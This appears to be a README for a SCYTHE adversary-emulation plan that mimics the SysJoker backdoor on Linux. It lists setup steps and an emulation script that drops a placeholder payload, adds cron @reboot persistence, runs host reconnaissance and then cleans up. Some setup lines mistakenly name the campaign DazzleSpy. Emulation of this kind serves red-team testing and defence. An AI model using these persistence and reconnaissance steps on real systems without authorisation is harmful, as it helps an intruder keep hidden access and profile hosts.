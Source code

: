 ## SysJoker

This threat is based on seveal different threat reports, 
- For macOS the [ObjectiveSee](https://www.objective-see.com/blog/blog_0x6C.html) threat report released on January 11,2022. 
- For Linux the [Intezer](https://www.intezer.com/blog/malware-analysis/new-backdoor-sysjoker/) threat report released January 11, 2022. 

## For Linux.

1. Download and import the threats in JSON format to your SCYTHE instace
2. Download the Virtual File System (VFS) files under DazzleSpy/VFS.
3.Create a new campaign DazzleSpy with HTTPS and the communication option. You can import the config.json or manually add `--cp yourdomain.com:443 --secure true --multipart 10240 --heartbeat 5 --jitter 16`
4. Import Existing Threat: DazzleSpy
5. Start Campaign
6. Download Campaign Client
7. In ~/Downloads run chmod +x *.out 
8./*.out

## To Emulate
```
loader --load run
run mkdir -p ~/.Library/SystemServices
loader --load downloader
downloader --src '#!/bin/bash\n echo "SysJoker Beacon Malware would have run here" > ~/.Library/log.txt; ' --dest /tmp/scythe-sysjoker
loader --unload downloader
run cp -rf /tmp/scythe-sysjoker ~/.Library/SystemServices/updateSystem
run chmod +x ~/.Library/SystemServices/updateSystem
# add persistence
run crontab -l 2>/dev/null; echo "@reboot ~/.Library/SystemServices/updateSystem" | crontab -
run nohup ~/.Library/SystemServices/updateSystem >/dev/null 2>&1 &
run ifconfig | grep -v 127.0.0.1 | grep -E "inet ([0-9]{1,3}.[0-9]{1,3}.[0-9]{1,3}.[0-9]{1,3})" | awk '{print $2}'
run ip address | awk '/ether/{print $2}'
run id -u
run uname -mrs
# Cleanup
run rm -rf ~/.Library/SystemServices/updateSystem
run rm -rf ~/.Library/log.txt
run rmdir ~/.Library/SystemServices
run rmdir ~/.Library/
run crontab -l 2>/dev/null | grep -v "@reboot ~/.Library/SystemServices/updateSystem" | crontab -
loader --unload run
controller --shutdown
```
